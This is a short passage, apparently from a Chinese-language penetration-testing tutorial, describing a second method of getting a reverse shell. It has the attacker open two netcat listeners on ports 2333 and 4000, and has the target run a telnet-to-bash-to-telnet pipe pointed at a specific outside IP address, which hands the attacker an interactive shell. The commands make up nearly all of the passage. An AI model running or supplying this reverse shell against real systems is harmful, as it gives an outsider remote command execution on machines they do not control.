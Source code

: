 [![img](images/20210423205830-9a3a5fca-a433-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210423205830-9a3a5fca-a433-1.png)

### 方法二

**攻击机需要开启两个本地监听：**

```
nc -lvvp 2333
nc -lvvp 4000
```

**目标机主动连接攻击机：**

```
telnet 47.101.57.72 2333 | /bin/bash | telnet 47.101.57.72 4000
```
